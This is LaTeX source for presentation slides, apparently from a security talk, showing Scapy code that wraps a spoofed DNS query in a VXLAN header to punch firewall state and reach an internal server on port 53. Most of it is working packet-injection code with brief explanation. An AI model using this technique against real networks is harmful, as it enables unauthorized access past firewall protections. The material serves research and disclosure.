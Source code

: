 \documentclass[16pt,landscape,a4paper,footrule]{foils}
\begin{document}

First create VXLAN header and inside packet
\begin{alltt}\footnotesize
vxlanport=4789
vni=37 {\bf
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")}

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet={\bf vxlan}/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{alltt}

{\small Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server}



Send and then wait for something, not from same IP bc from inside NAT, but port should be OK
\begin{alltt}\footnotesize
pid = os.fork()
if pid:
    # we are the parent
    print "parent: setting up sniffing"
    # Wait for UDP packet
    data = sniff(filter="udp and port 54040 and net 192.0.2.0/24", count=1)
else:
    # we are the child
    time.sleep(10)
    print "child: sending packet"
    sendp(packet,loop=0)
    print "child: closing"
    sys.exit(0)
#print data.summary()
data[0].show()
\end{alltt}

The source port we used in the inside packet, becomes the destination port in replies - 54040 in example


Plan inject UDP via VXLAN to create firewall state, will allow reverse UDP requests coming into internal server
\end{document}
